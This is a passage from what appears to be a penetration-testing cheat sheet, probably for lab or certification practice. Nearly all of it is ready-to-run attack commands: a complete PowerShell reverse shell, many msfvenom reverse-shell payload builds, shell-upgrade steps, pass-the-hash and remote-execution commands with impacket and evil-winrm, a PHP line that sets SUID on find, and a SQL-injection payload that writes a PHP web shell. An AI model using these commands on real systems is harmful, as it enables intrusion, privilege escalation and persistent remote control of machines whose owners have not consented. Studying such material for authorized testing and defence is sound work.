   ```
- `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('IP',21);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
- `powershell -e <BASE64>`
  - `python ps_encoder.py -s powershell_reverse_shell.ps1`
  - `python ps_encoder.py -s powershell_reverse_shell_2.ps1`


**Upgrade shell**
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
   - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
   - `perl -e 'exec "/bin/bash";'`
   - `/usr/bin/script -qc /bin/bash /dev/null`
2. `CTRL^Z`
3. `stty raw -echo;fg`
4. `reset`
5. `xterm-256color`
If something goes wrong
- `export TERM=xterm-256color`
- `stty rows 56 columns 213`
- `export PATH="/bin:/sbin:/usr/bin:/usr/sbin:$PATH"`
- `export SHELL=/bin/bash`


**msfvenom shells**
- `msfvenom -p linux/x64/exec -f elf-so PrependSetuid=true | base64`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8444 EXITFUNC=thread -f exe -o shell.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.215 LPORT=445 -f exe -e 64/xor -o shell.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.163 LPORT=445 -f exe -o shell.exe`
- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.163 LPORT=445 -f exe -o shell.exe`
- `msfvenom -f psh-cmd -p windows/shell_reverse_tc LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -f ps1 -p windows/shell_reverse_tcp LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f msi > shell.msi`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8444 -f aspx > devel.aspx`
  - run with: `msiexec /quiet /qn /i shell.msi`
- `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.231 LPORT=4242 -f elf > reverse.elf`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f war > shell.war`
  - for file uploads in tomcat/manager
  - `setoolkit > 1 > 9 > 1`
- Resources
  - https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
  - https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

**Access shell**
- `impacket-wmiexec domain.local/username@IP`
- `impacket-wmiexec domain.local/username@IP -hashes :HASH`
- `evil-winrm -u 'username' -p '*******' -i IP -N`
- `evil-winrm -i IP -u username -p password`
- `evil-winrm -u username -H ':HASH' -i IP -N`
- `crackmapexec smb IP -u username -p "password"`
- `impacket-psexec username:password@IP`
  - `msf> use exploit/windows/smb/psexec`
  - https://0xdf.gitlab.io/2020/01/26/digging-into-psexec-with-htb-nest.html

**Save files**
- `echo "<?php system('chmod +x /usr/bin/find; chmod +s /usr/bin/find');?>" >index.php`
- `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'`
  ```